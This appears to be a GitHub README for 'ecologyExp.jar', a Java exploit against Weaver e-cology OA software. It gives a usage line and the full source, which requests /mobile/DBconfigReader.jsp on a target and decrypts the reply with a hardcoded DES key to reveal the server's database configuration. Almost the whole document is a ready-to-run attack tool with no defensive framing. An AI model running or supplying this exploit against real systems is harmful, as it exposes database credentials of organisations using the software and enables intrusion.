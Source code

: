 # ecologyExp.jar
泛微oa数据库配置文件读取
java -jar ecologyExp.jar http://127.0.0.1

源码
package com.test;

import org.apache.http.HttpEntity;
import org.apache.http.client.methods.CloseableHttpResponse;
import org.apache.http.client.methods.HttpGet;
import org.apache.http.impl.client.CloseableHttpClient;
import org.apache.http.impl.client.HttpClientBuilder;
import org.apache.http.util.EntityUtils;

import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.DESKeySpec;
import java.security.SecureRandom;

public class ReadDbConfig {
    private final static String DES = "DES";
    private final static String key = "1z2x3c4v5b6n";

    public static void main(String[] args) throws Exception {
        if(args[0]!=null&& args[0].length() !=0){
            String url = args[0]+"/mobile/DBconfigReader.jsp";
            System.out.println(ReadConfig(url));
        }else{
            System.err.print("use: java -jar ecologyExp  http://127.0.0.1");
        }
    }

    private static String ReadConfig(String url) throws Exception {
        CloseableHttpClient httpClient = HttpClientBuilder.create().build();
        HttpGet httpGet = new HttpGet(url);
        CloseableHttpResponse response = httpClient.execute(httpGet);
        HttpEntity responseEntity = response.getEntity();

        byte[] res1 = EntityUtils.toByteArray(responseEntity);

        byte[] data = subBytes(res1,10,res1.length-10);

        byte [] finaldata =decrypt(data,key.getBytes());

        return (new String(finaldata));
    }

    private static byte[] decrypt(byte[] data, byte[] key) throws Exception {

        SecureRandom sr = new SecureRandom();
        DESKeySpec dks = new DESKeySpec(key);
        SecretKeyFactory keyFactory = SecretKeyFactory.getInstance(DES);
        SecretKey securekey = keyFactory.generateSecret(dks);
        Cipher cipher = Cipher.getInstance(DES);
        cipher.init(Cipher.DECRYPT_MODE, securekey, sr);

        return cipher.doFinal(data);
    }

    public static byte[] subBytes(byte[] src, int begin, int count) {
        byte[] bs = new byte[count];
        System.arraycopy(src, begin, bs, 0, count);
        return bs;
    }

}
